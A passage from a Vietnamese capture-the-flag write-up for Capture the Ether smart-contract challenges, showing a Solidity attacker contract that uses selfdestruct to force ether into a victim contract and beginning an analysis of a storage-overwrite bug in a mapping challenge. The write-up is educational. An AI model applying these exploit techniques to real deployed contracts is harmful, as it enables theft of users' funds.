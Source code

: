 Để có thể gửi coin tới contract, mình đã tìm kiếm cách gửi với keyword: "force send ether to contract". Có hai cách đó là sử dụng một contract với hàm hủy và gửi coin với tới địa chỉ contract trước khi nó được khởi tạo [Link blog](https://medium.com/@alexsherbuck/two-ways-to-force-ether-into-a-contract-1543c1311c56). Ở đây thì mình chỉ có thể dùng cách thứ nhất. <br>

Code solidity của mình như sau :
```
pragma solidity ^0.7.3;

contract RetirementFundAttacker {
    constructor () payable {
        require(msg.value > 0);
        victimAddress="xxxxxx"
        selfdestruct(victimAddress);
    }
}
```

Khi contract này bị hủy, balance sẽ được gửi tới victiomAddress và exception do fallback() raise ra sẽ không thể gửi coin lại được. Vì địa chỉ contract này còn contract nào hoạt động đâu :3.<br>

Sau khi thêm balance cho contract gốc thì balance > startBalance dẫn tới ta có thể collect hết được balance theo như hàm collectPenalty. Challenge đã complete.<br>

**Kiến thức thu được từ challenge:**
1. Hàm fallback() sẽ được gọi khi không có chức năng nào tương ứng với yêu cầu của người gọi.
1. Không có keyword payable function sẽ raise excection khi người gọi truyền coin vào
1. Có thể force send coin tới cointract đang hoạt động bằng hàm selfdestruct().


### Mapping [Link](https://capturetheether.com/challenges/math/mapping/)

Đây là một bài có source code khá đơn giản, người dùng có thể lưu các giá trị theo key vào mảng và kiểm tra giá trị của các key trong mảng. Challenge sẽ hoàn thành khi mà state variable isComplete là True.<br>
```
pragma solidity ^0.4.21;

contract MappingChallenge {
    bool public isComplete;
    uint256[] map;
    
    function set(uint256 key, uint256 value) public {
        // Expand dynamic array as needed
        if (map.length <= key) {
            map.length = key + 1;
        }
        map[key] = value;
    }
    
    function get(uint256 key) public view returns (uint256) {
        return map[key];
    }
}
```
Mục tiêu của challenge này khá rõ ràng. Mình cần điều khiển giá trị key của hàm se() làm sao để có thể write vào biến isComplete.<br>
